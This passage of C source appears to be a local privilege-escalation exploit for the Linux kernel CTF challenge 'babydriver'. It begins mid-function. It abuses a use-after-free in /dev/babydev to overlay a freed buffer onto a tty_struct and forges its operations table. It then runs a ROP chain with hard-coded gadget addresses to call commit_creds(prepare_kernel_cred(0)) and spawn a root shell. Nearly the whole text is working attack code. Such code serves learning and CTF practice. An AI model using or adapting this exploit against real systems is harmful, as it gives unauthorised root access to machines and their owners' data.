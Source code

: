 ```c
            "mov %rsp,user_sp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("[*]status has been saved.");
}

//commit_creds is a function point to get root 
//prepare_kernel_cred is also a function point to make a cred struct
size_t commit_creds=0xffffffff810a1420,prepare_kernel_cred=0xffffffff810a1810;
void get_root()
{
	char*(*pkc)(int)=prepare_kernel_cred;
	void (*cc)(char *)=commit_creds;
	//zero is root permissions
	(*cc)((*pkc)(0));
}
void get_shell()
{
	system("/bin/sh");
	wait(NULL);
}
size_t fake_tty_struct[4]={0};
size_t fake_tty_operations[0x20]={0};
int main()
{
	save_status();

	int f1=open("/dev/babydev",O_RDWR);
	int f2=open("/dev/babydev",O_RDWR);
	//malloc size of tty_struct
	ioctl(f1,0x10001,0x2e0);
	close(f1);
	puts("[+] close file done!have fun");
	//edit operation
	puts("[+] editing operation!");
	for(int i=0;i<0x20;i++)
		fake_tty_operations[i]=0xffffffffffff0000+i ;
	//malloc tty_struct
	int fd_tty=open("/dev/ptmx",O_RDWR|O_NOCTTY);
	puts("[+] malloc tty_struct done!");
	//read data from tty_struct
	read(f2,fake_tty_struct,0x20);
	fake_tty_struct[3]=(size_t) fake_tty_operations;
	write(f2,fake_tty_struct,0x20);
	puts("[+] Modify tty operation done!");
	//make rop
	puts("[+] making rop chaine.....");
	size_t rop[]={
		0xffffffff810d238d, //pop rcx;ret;
		0x6f0,
		0xffffffff81004d80, //mov rc4,rdi;pop rbp;ret;
		(size_t)rop,
		(size_t)get_root,
		0xffffffff81063694, //swapgs;pop rbp;ret
		0,
		0xffffffff814e35ef, //iretq
		(size_t)get_shell,
		user_cs,
		user_rflags,
		user_sp,
		user_ss
	};
```